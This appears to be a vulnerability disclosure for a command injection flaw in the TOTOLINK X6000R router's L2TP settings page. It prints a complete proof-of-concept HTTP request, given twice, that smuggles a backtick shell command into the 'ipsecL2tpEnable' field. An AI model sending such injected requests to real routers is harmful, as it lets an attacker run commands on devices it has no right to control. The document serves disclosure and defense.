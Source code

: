 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/l2tp.html", and vulnerable paramter is **"ipsecL2tpEnable"**.

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/f988b107-ec6e-4f29-8749-0e34f26d919b)

Capture the packet and do a blind test directly, we edit the value of `ipsecL2tpEnable` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 239
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"`ls >/web/poc_l2tp_ipsecL2tpEnable.txt`","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/2b4c766e-2f59-48bd-8f07-66dde4bed12f)

![image](https://github.com/user-attachments/assets/6faf3211-951a-4002-9a31-2b55472acf53)


# PoC
Capture the packet and do a blind test directly, we edit the value of `ipsecL2tpEnable` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 239
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"`ls >/web/poc_l2tp_ipsecL2tpEnable.txt`","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/2b4c766e-2f59-48bd-8f07-66dde4bed12f)

![image](https://github.com/user-attachments/assets/6faf3211-951a-4002-9a31-2b55472acf53)

